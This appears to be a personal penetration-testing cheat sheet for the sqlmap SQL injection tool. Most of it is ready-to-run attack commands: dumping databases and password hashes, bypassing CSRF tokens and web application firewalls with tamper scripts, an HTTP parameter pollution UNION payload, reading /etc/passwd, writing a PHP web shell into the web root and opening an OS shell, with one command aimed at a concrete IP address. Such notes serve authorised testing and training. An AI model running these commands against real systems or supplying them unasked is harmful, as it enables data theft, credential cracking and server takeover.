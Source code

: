 #sql
[[SQLi]]
[[ghauri]]
#####  Copy request as curl and paste to terminal
```shell
sqlmap 'http://www.example.com/?id=1' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0' -H 'Accept: image/webp,*/*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Connection: keep-alive' -H 'DNT: 1'
```

replace curl with sqlmap or save request to file: 
```shell
sqlmap -r req.txt
```

##### Show current DB as a proof
`--current-db`
##### Scan using parameters in cookies:
```bash
sqlmap -u 'http://94.237.50.99:43765/case3.php'  -H 'Cookie: id=*' --dump --batch
```

#### Tuning
```bash
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"
```

prefix and suffix for the query below

```php
$query = "SELECT id,name,surname FROM users WHERE id LIKE (('" . $_GET["q"] . "')) LIMIT 0,1";
$result = mysqli_query($link, $query);
```

```
--batch --dump show response of queries

-T flag5 - specify table

--level 1 (1-5)

--risk 1 (1-3)

--code 200 match http code

--titles <title> match page title

--string=success match response string

--text-only strip all tags, keep only text of response

--technique=BEU - SQLi types (boolean, union, etc.)

specify number of colons for union based technique:

--union-cols=5
```

#### Enumeration
* `--banner`
* `--current-user`
* `--is-dba`
* `--tables`
* `-D dbname`
* `-C col1, col`
* `--where="name LIKE 'f%'"`
* `--dump-all --exclude-sysdbs` - enumerate all DBs
* `--schema`
* `--search -T table -C col1` -- search for table which contains word table
* `--passwords` - try to crack passwords

##### CSRF bypass
```shell
sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"
```

##### Random value
```shell
sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp --batch -v 5 | grep URI
```

##### Parameters processing
```shell
sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch -v 5 | grep URI
```

##### Proxy
`proxy="socks4://177.39.187.70:33283`
`--check-tor`
##### WAF
[[WAF]]
Whenever we run SQLMap, As part of the initial tests, SQLMap sends a predefined malicious looking payload using a non-existent parameter name (e.g. `?pfov=...`) to test for the existence of a WAF (Web Application Firewall). There will be a substantial change in the response compared to the original in case of any protection between the user and the target. For example, if one of the most popular WAF solutions (ModSecurity) is implemented, there should be a `406 - Not Acceptable` response after such a request.
Detect WAF by signature: https://github.com/stamparm/identYwaf

##### Useragent
```shell
--random-agent
```

##### Tamper Scripts
Modyfing queries to bypass WAF.

`--tamper=between,randomcase`
`--list-tampers`

##### HTTP paramater pollution (HPP)
[[HPP]]
```
id=1&id=UNION&id=SELECT&id=username,password&id=FROM&id=users...
```

##### Files
```shell
--file-read "/etc/passwd"
```

```shell
--file-write "shell.php" --file-dest "/var/www/html/shell.php"
```

#### Upload shell
```shell
--os-shell
```

